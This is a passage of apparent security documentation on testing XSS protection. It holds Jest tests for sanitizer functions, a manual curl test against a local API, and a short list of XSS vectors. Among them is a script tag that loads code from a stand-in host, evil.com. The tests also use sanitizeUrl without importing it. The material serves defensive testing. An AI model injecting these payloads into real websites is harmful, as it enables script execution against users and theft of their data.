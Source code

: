 ## Testing XSS Protection

### Test Cases

```typescript
// tests/security/xss.test.ts
import { sanitizeText, sanitizeHtml, containsXss } from '@/lib/sanitize';

describe('XSS Protection', () => {
  test('blocks script tags', () => {
    const input = '<script>alert("xss")</script>';
    expect(containsXss(input)).toBe(true);
    expect(sanitizeText(input)).not.toContain('<script>');
  });

  test('blocks event handlers', () => {
    const input = '<img src="x" onerror="alert(1)">';
    expect(sanitizeHtml(input)).not.toContain('onerror');
  });

  test('blocks javascript: protocol', () => {
    const input = 'javascript:alert(1)';
    expect(sanitizeUrl(input)).toBe('');
  });

  test('allows safe content', () => {
    const input = 'Hello <b>World</b>';
    const result = sanitizeHtml(input);
    expect(result).toContain('<b>');
    expect(result).toContain('World');
  });
});
```

### Manual Testing

```bash
# Test with XSS payloads
curl -X POST http://localhost:5000/api/employees \
  -H "Content-Type: application/json" \
  -d '{"full_name": "<script>alert(1)</script>"}'

# Should return sanitized data
```

## Common XSS Vectors

### 1. Script Injection
```html
<script>alert('XSS')</script>
<script src="http://evil.com/xss.js"></script>
```
